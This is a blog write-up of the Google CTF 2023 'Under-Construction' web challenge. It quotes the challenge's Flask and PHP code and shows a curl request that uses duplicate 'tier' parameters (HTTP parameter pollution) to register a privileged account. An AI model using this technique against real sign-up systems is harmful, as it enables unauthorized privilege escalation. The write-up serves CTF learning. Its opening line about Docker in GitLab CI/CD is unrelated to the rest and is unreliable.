







import FigCaption from '../../../components/FigCaption.astro';

Using Docker in Gitlab CI/CD exposes some issues and performance problems. In this article, we will discuss how to deal with them.

When you start any challenge at the Google CTF 2023, the first things you will usually look at are the challenge description, attachments and in case of a web challenge the web pages.


<FigCaption caption="Under-Construction challenge description."/>

Curiously, Under-Construction contains two web pages, one written in Python, the other on in PHP. That might come in handy!

## Getting an overview

Now that we know what we can work with, let’s look at everything we got. Starting with the web pages.


<FigCaption caption="The PHP page is quite simple. A login form asking for username and password."/>


<FigCaption caption="The Python page gets more interesting. Here we have this home page, as well as pages for login and sign-up."/>


<FigCaption caption="Python login page."/>


<FigCaption caption="Python sign-up page."/>

The attached archive contains the source of the challenge. So did all challenges in this years Google CTF (which I prefer to having to tap in the dark).


<FigCaption caption="Under-Construction source files."/>

## So what does the application do

The premise for Under-Construction is that a company developed a Python Flask application in the past. The application is relatively simple. You can register accounts and log in with them. When registering, you can select one of the four tiers “BLUE”, “RED”, “GREEN” and “GOLD”. The tiers don’t actually do anything on the Python side. The only difference is that users can’t register “GOLD” accounts.  
Some time after that, management decided to migrate from Python to PHP however. So now the company is in the process of building a separate PHP application and facing out the Python application. To get the flag in Under-Construction, you have to log in on the PHP site with a “GOLD” account. Once you do that, PHP will echo back the flag to you.

## Searching for an exploit

Looking through the code, we find two sections of particular interest. Those being the Python and PHP registration logic. Registration is only possible in the Python application. Whenever a user registers there, however, a call is made to the PHP application to also register the user there.

```php title="php/account_migrator.php"
<?php
// Copyright 2023 Google LLC
//
// Licensed under the Apache License, Version 2.0 (the "License");
// you may not use this file except in compliance with the License.
// You may obtain a copy of the License at
//
//     https://www.apache.org/licenses/LICENSE-2.0
//
// Unless required by applicable law or agreed to in writing, software
// distributed under the License is distributed on an "AS IS" BASIS,
// WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
// See the License for the specific language governing permissions and
// limitations under the License.

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
 http_response_code(400);
 exit();
}

if(!isset($_SERVER['HTTP_TOKEN'])) {
 http_response_code(401);
 exit();
}

if($_SERVER['HTTP_TOKEN'] !== getenv("MIGRATOR_TOKEN")) {
 http_response_code(401);
 exit();
}

if (!isset($_POST['username']) || !isset($_POST['password']) || !isset($_POST['tier'])) {
 http_response_code(400);
 exit();
}

if (!is_string($_POST['username']) || !is_string($_POST['password']) || !is_string($_POST['tier'])) {
 http_response_code(400);
 exit();
}

insertUser($_POST['username'], $_POST['password'], $_POST['tier']);


function insertUser($username, $password, $tier)
{
 $hash = password_hash($password, PASSWORD_BCRYPT);
 if($hash === false) {
  http_response_code(500);
  exit();
 }
 $host = getenv("DB_HOST");
 $dbname = getenv("MYSQL_DATABASE");
 $charset = "utf8";
 $port = "3306";

 $sql_username = "forge";
 $sql_password = getenv("MYSQL_PASSWORD");
 try {
  $pdo = new PDO(
   dsn: "mysql:host=$host;dbname=$dbname;charset=$charset;port=$port",
   username: $sql_username,
   password: $sql_password,
  );

  $pdo->exec("CREATE TABLE IF NOT EXISTS Users (username varchar(15) NOT NULL, password_hash varchar(60) NOT NULL, tier varchar(10) NOT NULL, PRIMARY KEY (username));");
  $stmt = $pdo->prepare("INSERT INTO Users Values(?,?,?);");
  $stmt->execute([$username, $hash, $tier]);
  echo "User inserted";
 } catch (PDOException $e) {
  throw new PDOException(
   message: $e->getMessage(),
   code: (int) $e->getCode()
  );
 }
}
?>
```

```python title="flask/authorized_routes.py"
# Copyright 2023 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

# [...] Boilerplate code redacted for brevity

@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))

    if(len(username) > 15 or len(username) < 4):
        flash('Username length must be between 4 and 15')
        return redirect(url_for('authorized.signup'))

    user = models.User.query.filter_by(username=username).first()

    if user:
        flash('Username address already exists')
        return redirect(url_for('authorized.signup'))

    new_user = models.User(username=username, 
        password=generate_password_hash(password, method='sha256'), tier=tier.name)

    db.session.add(new_user)
    db.session.commit()

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

When a user registers using the Python endpoint, after checks are made and registration is done, the request is forwarded to the PHP account_migrator.php endpoint. One thing of note here is that checks for whether a user registers as “GOLD” or not only happen in Python. The PHP endpoint does however check for the MIGRATOR_TOKEN before registering a new user. Otherwise we could directly address the endpoint and register a “GOLD” user that way.

## The exploit

To register a “GOLD” user, we can exploit a difference in parameter parsing behavior between Python and PHP and the fact that the Python endpoint forwards the raw request to PHP instead of the values it reads from the request.

```python title="flask/authorized_routes.py"
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    # run checks and insert new user into database

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request) # data=raw_request, this is where the exploit lies
```

Say a request contained a POST parameter multiple times: `curl -X POST https://example.com -d "a=foobar&b=foo&b=bar"`. Would we get "foo" or "bar" for the value of `b`? The answer is that it depends on the programming language and framework. Python Flask takes the first occurrence, so `b` would have the value “foo”. PHP however takes the last value, so `b` would have the value “bar”. We can exploit that!

Crafting a registration request containing an allowed tier first and the “GOLD” tier second for the tier parameter will create a “GOLD” user for us.

```bash
curl -X POST https://under-construction-web.2023.ctfcompetition.com/signup -d "username=kukhofhacker&password=pwnd&tier=blue&tier=gold"
```

We can now log into the PHP application using the credentials we specified (username “kukhofhacker” and “pwnd” as password). Once we do that, we got our flag!


<FigCaption caption="Entering the credentials of our newly minted GOLD user."/>


<FigCaption caption="There we go! Here we have our flag. I won’t show it here though :)"/>

## Summing up

For my first time participating in the Google CTF, I am content with my results. We almost got our hands on a second flag on the Biohazard challenge. I later found out that while we didn’t do the intended solution there, our approach was possible and we were just one URL encoding away from getting our hands on Biohazards flag. We will definitely participate in CTFs more often from now on!
